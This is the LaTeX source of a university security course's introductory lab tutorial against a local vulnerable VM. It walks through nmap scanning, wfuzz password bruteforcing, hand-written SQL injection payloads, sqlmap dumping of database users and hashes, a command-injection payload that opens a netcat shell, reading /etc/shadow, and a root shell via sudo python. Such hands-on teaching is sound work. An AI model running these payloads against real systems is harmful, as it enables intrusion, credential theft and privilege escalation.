\documentclass{article}
\usepackage[top=3.1cm, bottom=3.1cm, left=2.5cm, right=2.5cm]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{graphicx}
\usepackage[toc,page]{appendix} 
\usepackage{eurosym}
\usepackage{gensymb}
\usepackage[dvipsnames]{xcolor}
\usepackage[normal]{caption}
\usepackage{mathtools, bm}
\usepackage{amssymb, bm}
%\usepackage{wrapfig}
\usepackage{floatflt}
\usepackage{enumitem}
\usepackage{MnSymbol,wasysym}
\usepackage[export]{adjustbox}
\usepackage{float}
\usepackage{fancyhdr}
\pagestyle{fancy}
\usepackage{titlesec}
\usepackage{soul}
\usepackage{amsmath,amsfonts,amssymb}
\usepackage{hyperref}
\usepackage{qtree}
%\usepackage{chemfig}
\usepackage{tikz}
\usepackage{pgfplots}
\usepackage{multicol}
\usepackage{multirow}
\usepackage{pgffor}
\usepackage{qtree}
%\usepackage{mhchem}
%\usepackage[demo]{graphicx}
\usepackage{subcaption}
\usepackage{listings}
\usepackage[squaren, Gray, cdot]{SIunits}
\usepackage{inconsolata}
\usepackage{minted}
%\usepackage{syntax} %Fait planter latex pour une raison quelconque

\usepackage{color}
\definecolor{pblue}{rgb}{0.13,0.13,1}
\definecolor{pgreen}{rgb}{0,0.5,0}
\definecolor{pred}{rgb}{0.9,0,0}
\definecolor{pgrey}{rgb}{0.46,0.45,0.48}
\definecolor{mediumslateblue}{rgb}{0.48, 0.41, 0.93}
\definecolor{electricviolet}{rgb}{0.56, 0.0, 1.0}

\newcommand{\bmat}[4]{\begin{bmatrix} #1 & #2 \\ #3 & #4\end{bmatrix}}
\newcommand{\bmatn}[9]{\begin{bmatrix} #1 & #2 & #3\\ #4 & #5 & #6 \\ #7 & #8 & #9\end{bmatrix}}

\renewcommand{\labelitemii}{$\bullet$}
\renewcommand{\labelitemiii}{$\circ$}
%\renewcommand{\labelitemiv}{$\bullet$}


\newcommand{\codecourse}{LINGI2144}
\newcommand{\titlecourse}{Secured System Engineering}
\newcommand{\othor}{\\
\textsc{Crochet} Christophe\\
\textsc{Duchene} Fabien\\
\textsc{Given-Wilson} Thomas\\
\textsc{Strebelle} Sebastien}
\newcommand{\professor}{\textsc{Legay} Axel}
\newcommand{\ayear}{2020 - 2021}
\newcommand{\year}{2020}

\newenvironment{Figure} %for multicols
  {\par\medskip\noindent\minipage{\linewidth}}
  {\endminipage\par\medskip}

\usepackage{listings}

\lstset{
  basicstyle=\ttfamily,
  keywordstyle=\color{pblue},
  keywordstyle=[2]{\color{mediumslateblue}},
  keywordstyle=[3]{\color{electricviolet}},
  identifierstyle=\color{black},
  commentstyle=\itshape\color{pgreen},
  stringstyle=\color{pred},
  language=Java,
  showspaces=false,
  showtabs=false,
  breaklines=true,
  showstringspaces=false,
  breakatwhitespace=true,
  aboveskip=0.3cm,belowskip=0.3cm,
  mathescape=true,
  moredelim=[il][\textcolor{pgrey}]{\$\$},
  moredelim=[is][\textcolor{pgrey}]{\%\%}{\%\%},
  morekeywords={then,end,type,String},
  morekeywords=[2]{invariant,variant,var},
  extendedchars=true,
  literate=
	{á}{{\'a}}1 {é}{{\'e}}1 {í}{{\'i}}1 {ó}{{\'o}}1 {ú}{{\'u}}1
	{Á}{{\'A}}1 {É}{{\'E}}1 {Í}{{\'I}}1 {Ó}{{\'O}}1 {Ú}{{\'U}}1
	{à}{{\`a}}1 {è}{{\`e}}1 {ì}{{\`i}}1 {ò}{{\`o}}1 {ù}{{\`u}}1
	{À}{{\`A}}1 {È}{{\'E}}1 {Ì}{{\`I}}1 {Ò}{{\`O}}1 {Ù}{{\`U}}1
	{ä}{{\"a}}1 {ë}{{\"e}}1 {ï}{{\"i}}1 {ö}{{\"o}}1 {ü}{{\"u}}1
	{Ä}{{\"A}}1 {Ë}{{\"E}}1 {Ï}{{\"I}}1 {Ö}{{\"O}}1 {Ü}{{\"U}}1
	{â}{{\^a}}1 {ê}{{\^e}}1 {î}{{\^i}}1 {ô}{{\^o}}1 {û}{{\^u}}1
	{Â}{{\^A}}1 {Ê}{{\^E}}1 {Î}{{\^I}}1 {Ô}{{\^O}}1 {Û}{{\^U}}1
	{œ}{{\oe}}1 {Œ}{{\OE}}1 {æ}{{\ae}}1 {Æ}{{\AE}}1 {ß}{{\ss}}1
	{ű}{{\H{u}}}1 {Ű}{{\H{U}}}1 {ő}{{\H{o}}}1 {Ő}{{\H{O}}}1
	{ç}{{\c c}}1 {Ç}{{\c C}}1 {ø}{{\o}}1 {å}{{\r a}}1 {Å}{{\r A}}1
	{€}{{\EUR}}1 {£}{{\pounds}}1
}
\pagenumbering{roman}
\title{\codecourse : \titlecourse}
\author{\othor}
\date{September \year}
\fancyhead[R]{\codecourse}

\renewcommand{\footrulewidth}{pt}
\fancyfoot[L]{\codecourse}
\fancyfoot[C]{Page \thepage}
\fancyfoot[R]{\year}

\newcommand{\colR}[1]{\color{red}{#1}}
\newcommand{\colRB}[1]{\color{red}{[#1]}}
\newcommand{\sep}{\ \wedge\ }

\DeclareMathOperator{\fib}{fib}
\DeclareMathOperator{\ok}{ok}
\DeclareMathOperator{\abs}{abs}

\pgfplotsset{compat=1.14}

\begin{document}
        \hfill
\includegraphics[scale=0.5]{image/logoepl.png}
        
        \vspace*{\fill}
            
        \begin{center}
        
            \rule{1\textwidth}{1pt}\\
	            \vspace{0.5\baselineskip}
		            \begin{LARGE}
	                	\textbf{\codecourse : \titlecourse}\\
	                	Tutorial 0: Initiation
		            \end{LARGE}
		        \vspace{0.5\baselineskip}       
	        \rule{1\textwidth}{1pt}\\
	        
	        \vspace{0.5\baselineskip}
	        
	        
\includegraphics[scale=1.5]{image/MCP.jpg}\\

	        \vspace{0.5\baselineskip}
	            Academic year : \ayear\\
                
		\end{center}
		
            \vspace*{\fill}
            
        \begin{tabular}{l@{\hspace{0.0cm}}r}
        
                \begin{minipage}{7cm}\noindent\textbf{Teacher :} \professor\\
                \noindent\textbf{Course :} \codecourse\\
                \noindent\textbf{Collaborators :} \othor 
                \end{minipage}
                &
                
        \end{tabular} 

\newpage

%\tableofcontents

\newpage
\pagenumbering{arabic}
%\begin{itemize} //Bullet points
%    \item [$\bullet$]
%    \item [$\bullet$]
%\end{itemize}

%\begin{multicols}{2} //Multicolonne
%
%\vfill\null
%\columnbreak
%
%\end{multicols}

%\begin{figure}[h]
%    \centering
%    \includegraphics[scale = 0.7]{image/10.PNG}
%    \caption{Titre}
%    \label{fig:titre}
%\end{figure}

% \begin{center}
%     \lstinline{}
% \end{center}

% \begin{itemize}
%     \item \lstinline{}
%     \item \lstinline{}
%     \item \lstinline{}
% \end{itemize}

\section{Prerequisite}
\noindent Download and install VirtualBox 6.1
\begin{center}
    \url{https://www.virtualbox.org/}
\end{center}
\noindent  Once Virtualbox is installed, download the VirtualBox Expansion Pack from this
address :
\begin{center}
    \url{https://download.virtualbox.org/virtualbox/6.1.18/Oracle_VM_VirtualBox_Extension_Pack-6.1.18.vbox-extpack}
\end{center}
\noindent Download the Kali VM from this link
\begin{center}
    \url{https://transvol.sgsi.ucl.ac.be/download.php?id=22efde628474f7f4}
\end{center}
\noindent Once downloaded, click on it VirtualBox will open, just click on the “Import” button\\


\noindent Connection:
\begin{table}[h!]
\centering
\label{tab:my-table}
\begin{tabular}{c|c}
\textbf{username} & \textbf{password} \\ \hline
kali          & kali         
\end{tabular}
\end{table}

\section{Exercise}

\subsubsection{Finding services - \lstinline{nmap}}
\begin{center}
    \lstinline{nmap <option> <IP>}
\end{center}
\begin{minted}[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
fontsize=\footnotesize,
linenos
]{bash}
$nmap -A -T4 localhost 
Starting Nmap ( http://nmap.org )
Nmap scan report for felix (127.0.0.1)
(The 1640 ports scanned but not shown below are in state: closed)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        WU-FTPD wu-2.6.1-20
22/tcp   open  ssh        OpenSSH 3.1p1 (protocol 1.99)
53/tcp   open  domain     ISC BIND 9.2.1
79/tcp   open  finger     Linux fingerd
111/tcp  open  rpcbind    2 (rpc #100000)
443/tcp  open  ssl/http   Apache httpd 2.0.39 ((Unix) mod_perl/1.99_04-dev)
515/tcp  open  printer
631/tcp  open  ipp        CUPS 1.1
...
8000/tcp open  http-proxy Junkbuster webproxy
8080/tcp open  http       Apache httpd 2.0.39 ((Unix) mod_perl/1.99_04-dev)
8081/tcp open  http       Apache httpd 2.0.39 ((Unix) mod_perl/1.99_04-dev)
Device type: general purpose
Running: Linux 2.4.X|2.5.X
OS details: Linux Kernel 2.4.0 - 2.5.20
\end{minted}

\subsubsection{Bruteforcing - \lstinline{wfuzz}}
 For URL such that: \url{http://172.17.0.2/gallery.php?password=THE_PASS_YOU_TRIED&Login=Login#}\\
    You could then see that the “password” argument is the password you entered, change that parameter and test. again
\begin{center}
    \lstinline{wfuzz -w <dicPath> "URL"}
\end{center}
We suggest using \lstinline{wfuzz} to perform a dictionary attack. \\A good dictionary can be found at \lstinline{/usr/share/wfuzz/wordlist/others/common_pass.txt}\\

\noindent We should also replace the URL like:
\url{http://172.17.0.2/gallery.php?password=FUZZ&Login=Login#}\\
Now, observe the output of \lstinline{wfuzz}, it will give you the HTTP return code (normally \lstinline{200/OK}) and the number of characters, lines and words on the page it received while trying that password. \textit{The “Incorrect Password” page contains 10 Lines and 37 Words}. Look if one line is different, meaning that that password has got a different result. Try that password on the website.

\begin{center}
    
\includegraphics[scale=0.65]{imageTP/1.png}
\end{center}

%\newpage
\subsubsection{SQL Injection - \lstinline{SQLMap}}
Imagine you can interact with a database such that:
\begin{center}
    
\includegraphics[scale=0.65]{imageTP/2.png}
\end{center}

\begin{itemize}
    \item Now think about the SQL Query that must be executed to look into that database. When you have a clear idea, look at the next line.
    \item The query used is most likely something like \lstinline{"SELECT * FROM cats WHERE id=PARAM"}.
    \item SQL commands support operators like AND or OR. Try to use a OR to dump the content of the whole table. When you’re done read the next line. Using a OR you can dump the whole table by using the query \lstinline{"SELECT * FROM cats WHERE id=1 OR 1=1"} (see picture just above)\\
    This query works because the OR condition is always true, so every entry in the database is selected and returned.
    \item Now that we know that we can inject commands, we can try some more interesting commands like \lstinline{"1 OR 1=0 UNION SELECT null, user() #"}. This command will give you the username used to connect to the database.
    \item Now we would like to know if some information about our cats are hidden. For instance, their microchip is probably there but hidden. Let’s see if we can display it.
    \item First, let’s find the name of the table used to store our cats. “cats” is probably a good guess but let’s check it by using 
    \lstinline{"1 AND 1=0 UNION SELECT null, table_name FROM information_schema.tables WHERE table_name LIKE 'cats%'#"} as an input.
    \item The answer should show you “cats” next to the birth date, meaning that a table cats exists (you can try with other names)
    \item Now that we’re sure that our table is called "cats" let’s try to find the name of the rows by using the input \lstinline{"1 AND 1=0 UNION SELECT null, concat(table_name,0x0a,column_name) FROM information_schema.columns WHERE table_name = 'cats' #"}. The result of this command will show you that this table has 4 rows: \lstinline{id, name, birth_date} and \lstinline{chip}. Great our chip \lstinline{id} is here and called \lstinline{chip}.
\end{itemize}
As we’ve seen, an SQL Injection allow to read data we aren’t supposed to read. But what’s interesting is if the user used by the website has admin privileges, we could even try to read the informations about other databases or SQL users. But these queries are pretty complex, so let’s use a tool for that.\\

\noindent SQLMap is a tool that will perform SQL injections for you, so let’s try it. Run sqlmap with the command:
\begin{center}
    \lstinline{sqlmap -u "http://172.17.0.2/cats.php?id=1&Submit=Submit" --string="Name" --users --password}
\end{center}
SQLMap will first scan the database for injectable parameters. Then, it will extract (if
possible) a list of the users and their hashed password. Upon success, sqlmap will try a bruteforce attack on the hashed passwords it extracted. When done, sqlmap should show you the login and passwords of several SQL users,
write them done this could be useful.

\begin{center}
    
\includegraphics[scale=0.5]{imageTP/5.PNG}
\end{center}

\noindent You can also have the list of all databases with:
\begin{center}
    \lstinline{sqlmap -u "http://172.17.0.2/cats.php?id=1&Submit=Submit" --string="Name" --dbs}
\end{center}
One is called phpmyadmin? That’s interesting. PHPMyadmin is a tool to manager SQL databases. Try the URL \url{http://172.17.0.2/phpmyadmin/} and try the admin password you found previously. You should have access to all the databases and their content.



\subsubsection{Command Injection - \lstinline{Metasploit}}
Is it possible to make this website run another command? Think about it and about how bash works and try it. When you’re done, go to the next line. An interesting thing about bash, is that you can “chain” commands by using the character “;”. For instance, of you type echo “hello”; echo “world” in your terminal, it will execute echo “hello” first and then echo “world”.\\ 

\noindent It would be easier to have a bash terminal right? We can do that!
\begin{enumerate}
    \item Let’s try to open a netcat on the machine so we can directly connect to it. For that use this input \lstinline{8.8.8.8; mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 1234 > /tmp/pipe}. \\
    
    \begin{center}
        
\includegraphics[scale=0.5]{imageTP/3.png}
    \end{center}
    
    This command is a bit complicated, but we basically tell netcat (nc) to listen on the port 1234 for a TCP connection, and we will communicate with a named pipe so the traffic can go both ways.
    \newpage 
    \item In the terminal open Metasploit by typing \lstinline{msfconsole}. Type use \lstinline{multi/handler}.
    \begin{center}
    
\includegraphics[scale=0.65]{imageTP/7.PNG}
\end{center}
    An interesting command would be the command to look into the users of the system (whoami -> user -> apache2). In Linux, the users are stored in \lstinline{/etc/passwd}. If you look closely, there’s a user called “site”. Did we already see this username before? (for this example).
    \item Type \lstinline{ssh site@172.17.0.2} and use the preceding password found with SQLMap
    \begin{center}
    
\includegraphics[scale=0.65]{imageTP/8.PNG}
    \end{center}
    \item a user is cool, but couldn’t we go further and try to become root ? In Linux, \lstinline{/etc/passwd} contains the users, \lstinline{/etc/shadow} contains the hashed passwords and you can’t access \lstinline{/etc/shadow} unless you’re root.\\
    
    Python is often allowed to run as root, and it’s a very bad practice:
    \begin{itemize}
        \item \lstinline{/usr/sbin/john} is an utility that bruteforce password files
        \item \lstinline{/usr/sbin/unshadow} is a commands that merges the result of \lstinline{/etc/passwd} and \lstinline{/etc/shadow} to put them in a format readable by john
    \end{itemize}
    \begin{minted}[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
fontsize=\footnotesize,
linenos
]{python}
import os
os.system('cat /etc/shadow')
\end{minted}
Or
    \begin{minted}[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
fontsize=\footnotesize,
linenos
]{bash}
sudo python -c 'import pty; pty.spawn("/bin/sh")'
\end{minted}
\end{enumerate}

\section{Bonus: going beyond}

Using another metasploitable VM as server (i.e a VM designed to be vulnerable) with some port opened and vulnerable version of services, try to reproduce the preceding exploits and even more if you can. Look on the internet for vulnerability for the different opened services, or search with \lstinline{msfconsole}.
\begin{center}
    \lstinline{msf > search <exploit_service>}
\end{center}
You can find a metasploitable VM here: 
\begin{center}
    \url{https://docs.rapid7.com/metasploit/metasploitable-2/}
\end{center}
It's time to play, try to discover all the possibilities that \lstinline{nmap} or other scanning tools have to propose. Search for common vulnerability and how to exploit them !
% \begin{center}
%     \lstinline{}
% \end{center}
% \begin{small}
% \medskip
% \bibliographystyle{IEEEtran}
% \bibliography{bib}
% \nocite{*}
% \renewcommand\mkbibnamefamily[1]{\textbf{#1}}
% \end{small}
\end{document}
